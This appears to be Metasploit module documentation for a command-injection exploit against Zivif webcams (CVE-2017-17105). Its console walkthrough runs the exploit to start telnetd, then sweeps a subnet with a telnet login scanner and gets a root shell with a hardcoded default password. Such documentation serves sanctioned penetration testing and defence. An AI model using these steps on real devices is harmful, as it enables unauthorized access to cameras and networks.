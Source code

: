 ## Description


  This module exploits a remote command execution vulnerability in Zivif webcams.  This is known to impact versions prior to and including v2.3.4.2103.  Exploit was reported in CVE-2017-17105.  

  This module has been tested successfully on version v2.3.4.2103 and V4.7.4.2121.

## Vulnerable Application

  Unfortunately a virtual copy of this camera is not available.  


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/http/zivif_ipcheck_exec`
  3. Do: `set rhost [IP]`
  4. Do: `set PAYLOAD payload/cmd/unix/generic`
  5. Do: `set CMD telnetd`
  6. Do: `exploit`
  7. Port 23 will now be open on the target


## Scenarios


  ```
  msf > use exploit/unix/http/zivif_ipcheck_exec
  msf exploit(unix/http/zivif_ipcheck_exec) > set rhost 192.168.0.35
  rhost => 192.168.0.35
  msf exploit(unix/http/zivif_ipcheck_exec) > set PAYLOAD payload/cmd/unix/generic
  PAYLOAD => cmd/unix/generic
  msf exploit(unix/http/zivif_ipcheck_exec) > set CMD telenetd
  CMD => telenetd
  msf exploit(unix/http/zivif_ipcheck_exec) > exploit 

  [*] Sending request
  [+] Command sent successfully
  [*] Exploit completed, but no session was created.
  msf exploit(unix/http/zivif_ipcheck_exec) > 
  msf exploit(unix/http/zivif_ipcheck_exec) > back
  msf > use auxiliary/scanner/telnet/telnet_login
  msf auxiliary(scanner/telnet/telnet_login) > set RHOSTS 192.168.0.0/24
  RHOSTS => 192.168.0.0/24
  msf auxiliary(scanner/telnet/telnet_login) > set USERPASS_FILE /root/creds
  USERPASS_FILE => /root/creds
  msf auxiliary(scanner/telnet/telnet_login) > set threads 10
  threads => 10
  msf auxiliary(scanner/telnet/telnet_login) > exploit 

  [!] 192.168.0.34:23          - No active DB -- Credential data will not be saved!
  [+] 192.168.0.34:23          - 192.168.0.34:23 - Login Successful: root:cat1029
  [*] 192.168.0.34:23          - Attempting to start session 192.168.0.34:23 with root:cat1029
  [*] Command shell session 1 opened (0.0.0.0:0 -> 192.168.0.34:23) at 2020-06-15 19:47:14 +0000

  [-] 192.168.0.34:23          - 192.168.0.34:23 - LOGIN FAILED: admin:cat1029 (Incorrect: )
  [*] 192.168.0.34:23          - Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  msf auxiliary(scanner/telnet/telnet_login) > 
  msf auxiliary(scanner/telnet/telnet_login) > sessions 

  Active sessions
  ===============

    Id  Name  Type   Information                         Connection
    --  ----  ----   -----------                         ----------
    1         shell  TELNET root:cat1029 (192.168.0.34:23)  0.0.0.0:0 -> 192.168.0.34:23 (192.168.0.34)

  msf auxiliary(scanner/telnet/telnet_login) > 


  ```



